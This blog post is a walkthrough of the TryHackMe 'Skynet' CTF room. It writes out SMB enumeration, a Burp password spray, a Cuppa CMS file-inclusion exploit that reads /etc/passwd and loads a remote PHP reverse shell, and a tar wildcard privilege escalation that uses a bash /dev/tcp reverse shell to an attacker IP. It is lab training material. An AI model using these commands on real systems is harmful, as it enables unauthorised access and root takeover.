 ```yaml
---
layout: post
title: TryHackMe Skynet 
image: /assets/img/Skynet/main.png
author: Edwards
date: 2020-11-04
categories: [CTF, TryHackMe]
tags: [Web, Linux, SMB, PrivEsc] 
math: true
---
```


# Skynet 

In this room I learned :
- How to enumerate SMB shares
- Use a php reverse shell 
- Priv Esc with tar and wildcards
- Exploit Cuppa Cms 

### Section 1 : Recon :

Let's kick it with nmap : 

![image](/assets/img/Skynet/nmap.png)

We have several good infos here. 

First there is a Web Server running so let's check that out.

![image](/assets/img/Skynet/web.png)

Nothing interesting here... the button are not even working. 

I'm gonna launch gobuster to check for directories.

```bash
gobuster dir -u http://10.10.250.209:80/ -w /home/edwards/Documents/DirBuster-1.0-RC1/directory-list-2.3-medium.txt
```
Here are the results : 

![image](/assets/img/Skynet/res.png)

We have differents locations, in some I got forbidden access. 
But I found something interesting, it's a login page but we have no clue for a password or a login.

In the nmap we had result for smb shares, I'm gonna launch a nmap scan to enumerate samba shares.

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.250.209 
```

![image](/assets/img/Skynet/smbnmap.png)

We have something very juicy here, we can connect as anonymous. Let's try it.

### Section 2 : SMB and BurpSuite

```bash
smbclient //10.10.250.209/anonymous 
```

Looks like we are in.

In the log directory, we have a log1.txt, it look's like a list of password. 
We can maybe use this to connect to the previous login page with burpsuite.

![image](/assets/img/Skynet/log.png)

I used the log1.txt to start a sniper attack on BurpSuite.
We have a positive response with one password.

![image](/assets/img/Skynet/sniper.png)

After connecting to the website we have access to 3 emails.

In one we have an email with SMB credentials for Miles.

![image](/assets/img/Skynet/credsmb.png)

Let's connect to milesdyson smbshare with the password that we found.
```bash
smbclient //10.10.250.209/milesdyson -U milesdyson
```

![image](/assets/img/Skynet/smbmiles.png)

In the notes directory, we have a important.txt reavealing a hidden directory.

![image](/assets/img/Skynet/imp.png)

Here the page of the hidden directories : 

![image](/assets/img/Skynet/hidden.png)

Then, I launched again gobuster to search again for hidden path inside this directory.
We have a administrator path that bring us to this page :

![image](/assets/img/Skynet/cuppa.png)

### Section 3 : Exploitation

I used searchsploit to find a cuppa exploit.

![image](/assets/img/Skynet/exploit.png)

Since we have just one exploit the choice is easy.

We need to first check if the exploit is avaible.
```bash
curl -s http://10.10.142.202/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
![image](/assets/img/Skynet/response.png)

We have a response that means we can now upload a reverse shell and get a shell back.

Start a netcat listener.

![image](/assets/img/Skynet/netcat.png)

Now download a php reverse shell and configure it with the right port and your ip address.
```bash
wwget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

![image](/assets/img/Skynet/php.png)

Now let's upload it on the machine with the help of a python simple http sever :

![image](/assets/img/Skynet/python.png)

Enter the following url :
```bash
10.10.142.202/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.15.91:8000/php-reverse-shell.php
```

And you will have a shell connection ! 

![image](/assets/img/Skynet/shell.png)

I used this python command to have a nice shell : 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Section 4 : Root flag
_Gonna be honest I struggled hard with this part, I didn't know what to do at all so I went to this walkthrough website so I want to give him the credits for this part : 
https://www.aldeid.com/wiki/TryHackMe-Skynet
All the previous part has been done by myself, but not this part, I need to tryharder !_

In miles' home directory we have a backup script that compresses the /var/www/html directory

![image](/assets/img/Skynet/backup.png)

Let's inspect the /etc/crontab

![image](/assets/img/Skynet/cron.png)

We see that the script is executed by root every minute.

Here comes the tricky part. 
With the help of GTFOBins [!GTFOBins](https://gtfobins.github.io/gtfobins/tar/)

Let's use the informations to create a privileged shell with tar.

Set up a new netcat listener. 

then execute the following -> 
```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.11.15.91/4555 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

After a few seconds, you will have a shell as root open.

![image](/assets/img/Skynet/root.png)

Now you can go look for the root.txt !
